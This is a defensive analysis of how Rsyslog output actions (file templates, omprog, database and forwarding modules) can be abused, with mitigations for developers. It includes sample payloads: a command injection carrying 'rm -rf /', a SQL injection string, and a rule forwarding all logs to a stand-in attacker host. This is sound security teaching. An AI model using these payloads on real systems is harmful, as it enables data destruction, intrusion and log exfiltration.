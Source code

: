 ## Deep Analysis: Exploit Rsyslog Output Actions [CRITICAL_NODE] [HIGH_RISK_PATH]

This analysis delves into the "Exploit Rsyslog Output Actions" attack tree path, focusing on the vulnerabilities and potential impact associated with manipulating Rsyslog's output mechanisms. As a cybersecurity expert collaborating with your development team, my goal is to provide a detailed understanding of the risks and offer actionable mitigation strategies.

**Understanding the Attack Vector:**

Rsyslog's core functionality revolves around receiving, processing, and outputting log messages. The "Output Actions" component defines *where* and *how* these processed logs are delivered. This flexibility, while powerful, presents a significant attack surface if not carefully configured and secured. Attackers targeting this path aim to leverage weaknesses in how Rsyslog handles output directives to achieve malicious goals.

**Detailed Breakdown of Potential Attack Scenarios:**

Here's a breakdown of specific attack scenarios within this path, categorized by the type of output action being exploited:

**1. Arbitrary File Write/Overwrite:**

* **Mechanism:** Attackers can manipulate log messages (either by directly injecting them into the logging stream or by compromising a system that generates logs) to control the destination and content of files written by Rsyslog.
* **Exploitation:**
    * **Configuration Manipulation:** If the Rsyslog configuration allows dynamic file paths based on log content (e.g., using template properties), attackers can inject carefully crafted log messages to write to arbitrary locations on the filesystem. This could include overwriting critical system files, configuration files, or even injecting malicious scripts into web server directories.
    * **Log Injection with Specific Templates:**  Even with seemingly static file paths, attackers might be able to control the *content* written to the file through log injection, potentially injecting malicious code or configuration snippets.
* **Example:**  Imagine an Rsyslog configuration using a template like `template(name="DynFile", type="string", string="/var/log/%HOSTNAME%/%PROGRAMNAME%.log")`. An attacker could manipulate the `HOSTNAME` or `PROGRAMNAME` fields in a log message to write to a sensitive location like `/etc/cron.d/malicious_job`.
* **Risk:**  Complete compromise of the system, privilege escalation, denial of service, data corruption.

**2. Arbitrary Command Execution via `omprog` or Similar Modules:**

* **Mechanism:** Rsyslog's `omprog` module (and similar modules) allows execution of external programs based on log messages. Attackers can exploit this by injecting log messages that trigger the execution of arbitrary commands.
* **Exploitation:**
    * **Direct Command Injection:** If the `omprog` configuration directly uses log content in the command string without proper sanitization, attackers can inject shell commands within the log message.
    * **Indirect Command Execution via Scripting:** Attackers can manipulate log messages to trigger the execution of a pre-existing script with attacker-controlled arguments, effectively achieving command execution.
* **Example:**  An Rsyslog configuration using `action(type="omprog" binary="/usr/local/bin/process_log.sh $msg")`. An attacker could inject a log message like: `Important Event; rm -rf /`.
* **Risk:**  Complete compromise of the system, data exfiltration, denial of service, installation of malware.

**3. Database Manipulation via `ommysql`, `ompgsql`, etc.:**

* **Mechanism:** Rsyslog's database output modules allow writing log data to databases. Attackers can exploit this by injecting log messages that contain malicious SQL queries.
* **Exploitation:**
    * **SQL Injection:** By crafting log messages with embedded SQL commands, attackers can manipulate database records, potentially gaining unauthorized access, modifying data, or even dropping tables.
    * **Data Poisoning:** Attackers can inject false or misleading log data into the database, potentially disrupting auditing, analysis, and incident response efforts.
* **Example:**  An attacker could inject a log message like: `User login failed: ' OR '1'='1'; --`. This could bypass authentication checks if the log data is directly used in a database query.
* **Risk:**  Data breach, data corruption, loss of data integrity, unauthorized access to sensitive information.

**4. Network Communication Manipulation via `omfwd` or Similar Modules:**

* **Mechanism:** Rsyslog's network forwarding capabilities can be exploited to redirect log messages to attacker-controlled servers or to flood network resources.
* **Exploitation:**
    * **Log Redirection:** Attackers can manipulate log messages (or the Rsyslog configuration if they have access) to forward logs to their own servers, potentially exfiltrating sensitive information.
    * **Denial of Service (DoS):** By manipulating the destination of forwarded logs, attackers can overwhelm network resources or target specific systems with a flood of log messages.
* **Example:** An attacker might modify the Rsyslog configuration (if compromised) to forward all logs to their external server: `*.* @@attacker.example.com:514`.
* **Risk:**  Data exfiltration, denial of service, network disruption, exposure of internal infrastructure.

**5. Exploiting Vulnerabilities in Output Module Implementations:**

* **Mechanism:**  Bugs or vulnerabilities within specific Rsyslog output modules themselves can be exploited.
* **Exploitation:** This is a more targeted approach requiring knowledge of specific module vulnerabilities. It could involve sending specially crafted log messages that trigger buffer overflows, format string vulnerabilities, or other weaknesses in the module's code.
* **Risk:**  Arbitrary code execution, denial of service, information disclosure, depending on the nature of the vulnerability.

**Impact Assessment:**

Successful exploitation of Rsyslog output actions can lead to severe consequences:

* **Confidentiality Breach:** Sensitive information logged by Rsyslog can be exfiltrated or exposed.
* **Integrity Compromise:** System files, application configurations, and database contents can be modified or corrupted.
* **Availability Disruption:**  Denial of service attacks can be launched by overwhelming resources or crashing the Rsyslog service itself.
* **Privilege Escalation:**  Attackers can gain higher privileges by manipulating system files or executing commands with elevated permissions.
* **Compliance Violations:**  Compromised logs can hinder auditing and incident response, leading to regulatory penalties.

**Mitigation Strategies for Development Team:**

To mitigate the risks associated with this attack path, your development team should implement the following strategies:

* **Strict Input Validation and Sanitization:**
    * **Log Message Sanitization:**  Implement robust sanitization of log messages *before* they are processed by output actions. This is crucial to prevent injection attacks.
    * **Template Escaping:** When using templates to dynamically generate output paths or command arguments, ensure proper escaping of special characters to prevent unintended interpretation.
* **Principle of Least Privilege:**
    * **Restrict Rsyslog User Permissions:** Run the Rsyslog service with the minimum necessary privileges. Avoid running it as root if possible.
    * **Limit Output Action Permissions:**  Restrict the file system permissions of the Rsyslog user to only the necessary directories and files.
* **Secure Configuration Practices:**
    * **Avoid Dynamic File Paths Based on User-Controlled Input:** Minimize the use of templates that allow log content to directly dictate output file paths.
    * **Careful Use of `omprog` and Similar Modules:**  Exercise extreme caution when using modules that execute external programs. Avoid passing unsanitized log content directly as command arguments. Consider using a predefined set of safe commands with controlled parameters.
    * **Parameterize Database Queries:** When using database output modules, utilize parameterized queries to prevent SQL injection vulnerabilities.
    * **Restrict Network Forwarding Destinations:**  Limit the allowed destination servers for network forwarding and implement authentication mechanisms where applicable.
* **Regular Security Audits and Reviews:**
    * **Configuration Review:** Regularly review the Rsyslog configuration file for any insecure settings or potential vulnerabilities.
    * **Code Review:** If developing custom Rsyslog modules, conduct thorough code reviews to identify and address potential security flaws.
* **Security Monitoring and Alerting:**
    * **Monitor Rsyslog Logs:**  Analyze Rsyslog's own logs for suspicious activity, such as failed output actions, unexpected file creations, or unusual command executions.
    * **Implement Intrusion Detection Systems (IDS):**  Deploy IDS rules to detect attempts to manipulate log messages or exploit output actions.
* **Keep Rsyslog Updated:** Regularly update Rsyslog to the latest version to patch known security vulnerabilities.

**Developer Considerations:**

* **Secure Coding Practices:** Emphasize secure coding practices when developing applications that generate logs. Avoid including sensitive information directly in log messages.
* **Educate Developers:** Ensure developers understand the security implications of Rsyslog's output actions and the importance of secure logging practices.
* **Testing and Validation:** Thoroughly test any changes to the Rsyslog configuration or related applications to ensure they do not introduce new vulnerabilities.

**Conclusion:**

The "Exploit Rsyslog Output Actions" attack path represents a significant security risk due to the potential for direct interaction with the underlying system. Understanding the various ways attackers can leverage Rsyslog's output mechanisms is crucial for implementing effective mitigation strategies. By focusing on secure configuration, input validation, the principle of least privilege, and continuous monitoring, your development team can significantly reduce the attack surface and protect your application from this critical threat. Remember that security is an ongoing process, and regular review and adaptation are essential to stay ahead of evolving threats.
